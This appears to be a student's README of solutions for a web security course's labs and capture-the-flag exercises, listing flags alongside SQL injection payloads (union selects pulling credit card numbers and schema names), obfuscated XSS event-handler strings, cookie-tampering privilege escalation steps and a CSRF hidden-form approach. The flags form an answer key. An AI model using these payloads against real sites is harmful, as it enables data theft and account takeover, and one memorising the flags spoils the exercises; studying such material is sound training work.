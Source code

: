 # webhack

## week 1 - CTF

Secret Number 1: 92

Secret Number 2 - *CTF{TRIANGLE_NUMBER_SEQUENCE}

Secret Number 3 - *CTF{IDOR_ROCKS!}

Bank Robbers 2 - *CTF{YOU'RE_AN_IMPRESSIVE_THIEF}

Bank Robbers 3 - *CTF{I_SHOULD_HIDE_MY_BELONGINGS}

key player 2 - 3

key player 3 - *CTF{JORDAN_ALSO_BETTER_THAN_ME}

Odd List - *CTF{DECODE_AS_URL}

hidden user - *CTF{SQUARE_NUMBER_SERIES}

Peculiar Employees - *CTF{I_STOLE_DAENERYS_DRAGONS}

Privilege Escalation - *CTF{YOU_GOT_ADMIN_PRIVILEGE}

## week 2

###Lab
------
SQL Injection Escaping:   `\'   or 1;--`
------
SQL Injection Challenge Three:  `Mary Martin' union select CreditCardNumber from customers where customerName = 'Mary Martin`
------
SQL Injection 5: `couponCode=' union select 1, 2, couponCode from vipCoupons limit 1 # `

###CTF

https://35.188.146.206/public/protected/flags/03/
`*CTF{WHOA_IT_SUPPORTS_LOGICAL_OPERATORS}`

https://35.188.146.206/public/protected/flags/04/
`*CTF{BACK_AGAIN_WITH_ANOTHER_SQLi} . 'or'1`

https://35.188.146.206/public/protected/flags/01/index.php
`*CTF{SQLI_IS_SO_FUN_TO_DO}`

https://35.188.146.206/public/protected/flags/05/?job_type=a&submit=submit


https://35.188.146.206/public/protected/flags/07/
`*CTF{SQLI_IS_MORE_FUN_WITH_HEX}`

https://35.188.146.206/public/protected/flags/08/    `params['job_type'] = 'a' `
`*CTF{ARE_YA_WARMED_UP_YET??}`

https://35.188.146.206/public/protected/flags/09/
`*CTF{OH_YOU_FANCY_HUH}` like before just encoded: `params['job_type'] = 'YQ=='`

https://35.188.146.206/public/protected/flags/10/
`" or 1=1 limit 6,1#         " union select 1,2,3,4,5,schema_name FROM information_schema.schemata limit 1,1# `
`*CTF{sqli_10}`

https://35.188.146.206/public/protected/flags/12/  in both fields: `"or"1`
`*CTF{THIS_FLAG_IS_ONLY_FOR_MR_ADMINISTRATOR}`

https://35.188.146.206/public/protected/flags/13/   'or'1'/**/limit/**/2,1#
*CTF{5.7.21-0ubuntu0.16.04.1}

https://35.188.146.206/public/protected/flags/14/
`*CTF{THE_BEST_COLUMN_NAMES_EVERRR}` :   taken from 15

not solved: 

https://35.188.146.206/public/protected/flags/15/
hints:
```
"or"1"# 
"or"1"union select 1,2 limit 1,29#

"or"1"union select TABLE_NAME,COLUMN_NAME from information_schema.COLUMNS limit 1000,1000#
```

##Week 3 - Lab

Cross Site Scripting Two
"<INPUT TYPE="text" onblur="alert('XSS')"/>"

3
<META onpaonpageonpagonpageonpageshowshoweshowshowgeshow="alert(1)";

4
http://blabla.com"  oNpageshow=alert('XSS') 

## codepath websecurity week 4

Implementing CSRF as an exercise, more details:
https://guides.codepath.com/websecurity/Cross-Site-Request-Forgery

###Lab

ex 0: easy (just look at the response)

ex 1: from the cookie, base64, modify to: `userRole=administrator` and re-encode

ex 2: try administrator as username, you'll get the email: buzzthebald@shepherd.com
take the request of the reset pwd and try to change the cookie to admin:
changed To: -3511607529262...
now log in...

ex 3. same like before only now we have a new `current` field in the cookie, decrypting it twice with base 64 shows something like `guest12`, reverse engineer using `admin` or `administrator` and use the new 'fixed` current with the login using the new password that we just submitted for a change

ex 4. simply follow the instructions and submit the url as they suggest:
https://security.codepath.com/root/grantComplete/csrfLesson?userId=1139997297 

ex 5. CSRF - upload the url: https://security.codepath.com/user/csrfchallengeone/plusplus?userid=<your user id> and once enough other users loaded the page your counter will go to zero

ex 6. create a page with a hidden form like they show on the guide, use the url and wait for someone to load the page, see:
https://github.com/alfasin/webhack/blob/master/fake_form.html
